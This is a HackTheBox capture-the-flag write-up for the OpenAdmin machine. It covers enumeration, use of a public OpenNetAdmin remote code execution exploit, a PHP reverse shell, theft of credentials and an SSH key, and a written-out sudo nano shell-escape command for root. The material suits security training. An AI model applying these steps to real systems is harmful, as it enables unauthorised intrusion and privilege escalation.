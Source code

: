 ```yaml
---
title: "HackTheBox - OpenAdmin"
author: Nasrallah
description: ""
date: 2022-08-29 00:00:00 +0000
categories : [HackTheBox, Machines]
tags: [hackthebox, linux, easy, john, crack, rce, sudo]
img_path: /assets/img/hackthebox/machines/openadmin
---
```


<div align="center"> <script src="https://www.hackthebox.eu/badge/565048"></script> </div>

---


## **Description**

Hello hackers, I hope you are doing well. We are doing [OpenAdmin](https://app.hackthebox.com/machines/OpenAdmin) from [HackTheBox](https://www.hackthebox.com). It's an easy machine running a web server with a service vulnerable to rce allowing us to get easy foothold. Enumerating the server's file we find a password of a user that have access to another an internal web server that reveals an ssh key that we use to move to another user. A sudo misconfiguration in then exploited to gain root shell.

## **Enumeration**
 
### nmap

We start a nmap scan using the following command: `sudo nmap -sC -sV -T4 {target_IP}`.

- -sC: run all the default scripts.

- -sV: Find the version of services running on the target.

- -T4: Aggressive scan to provide faster results.

```terminal
Nmap scan report for 10.10.10.171
Host is up (0.23s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 dc:eb:3d:c9:44:d1:18:b1:22:b4:cf:de:bd:6c:7a:54 (ECDSA)
|_  256 dc:ad:ca:3c:11:31:5b:6f:e6:a4:89:34:7c:9b:e5:50 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

```

We have 2 ports open, 22(SSH) and 80 running Apache http webserver.

### Web

Let's check the website.

![](1.png)

We got the Apache ubuntu  default page.

#### Gobuster

Let's run a directory scan.

```terminal
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.10.171/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2022/08/27 06:33:27 Starting gobuster in directory enumeration mode
===============================================================
/.hta                 (Status: 403) [Size: 277]
/.htpasswd            (Status: 403) [Size: 277]
/.htaccess            (Status: 403) [Size: 277]
/artwork              (Status: 301) [Size: 314] [--> http://10.10.10.171/artwork/]
/index.html           (Status: 200) [Size: 10918]                                 
/music                (Status: 301) [Size: 312] [--> http://10.10.10.171/music/]  
/server-status        (Status: 403) [Size: 277]                                   
===============================================================
```

We found two interesting directories, **/artwork** and **music**, let's check the first one.

#### artwork

![](2.png)

It's a website template, nothing really useful. Let's check the other directory.


#### music

![](3.png)

In this page we can see that we can login or create an account along with some other pages. Let's try logging in.

![](4.png)

We get redirected to **/ona** where we are logged in as Guest, and it seems the service on this page is running on an old version and we are asked to download the latest version. The download link is going to **opennetadmin** page aka **ONA**.

## **Foothold**

Let's check if there is any exploit in this version.

```terminal
$ searchsploit opennetadmin
--------------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                             |  Path
--------------------------------------------------------------------------------------------------------------------------- ---------------------------------
OpenNetAdmin 13.03.01 - Remote Code Execution                                                                              | php/webapps/26682.txt
OpenNetAdmin 18.1.1 - Command Injection Exploit (Metasploit)                                                               | php/webapps/47772.rb
OpenNetAdmin 18.1.1 - Remote Code Execution                                                                                | php/webapps/47691.sh
--------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results

```

This version is vulnerable to remote code execution, let's copy the exploit to our current directory with the command `searchsploit -m php/webapps/47691.sh` and use it.

![](5.png)

We got code execution. Let's upload a [php reverse shell](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php) to the webserver.

![](6.png)

Now set up a listener and request the file the receive a reverse shell.

![](7.png)

We got a shell, and i stabilized it with python3 as you can see in the screenshot above. 

## **Privilege Escalation**

After some very long enumeration in the target, we find a php file that contains mysql credentials.

![](8.png)

The credentials belong to the user `jimmy`, run the command `su jimmy` to switch to that user.

running the command `id`, we see that jimmy is part of a group named `internal`, if we search for files that belongs to that group we find the following.

![](9.png)

There is a web server running on a high port, and it's located in /var/www/internal.

The file main.php prints `joanna`'s ssh private key.

![](10.png)

Let's request the file and see what happens.

![](11.png)

Nice, we got the key. Let's put in a file, give it the right permission and connect with it.

![](12.png)

The key was protected with a password but we managed to crack it using `john`.

Let's check our privileges.

![](13.png)

We can run nano as root, let's check [GTFOBins](https://gtfobins.github.io/gtfobins/nano/#sudo).

![](14.png)

There is a way to get root shell, we just need to execute the following commands.

```terminal
sudo /bin/nano /opt/priv

"ctrl + R"
"ctrl + X"

reset; sh 1>&0 2>&0
```

>Press Enter multiple time to get a clear shell.

![](15.png)

Great! We got root.


---

Thank you for taking the time to read my write-up, I hope you have learned something from this. If you have any questions or comments, please feel free to reach out to me. See you in the next hack :).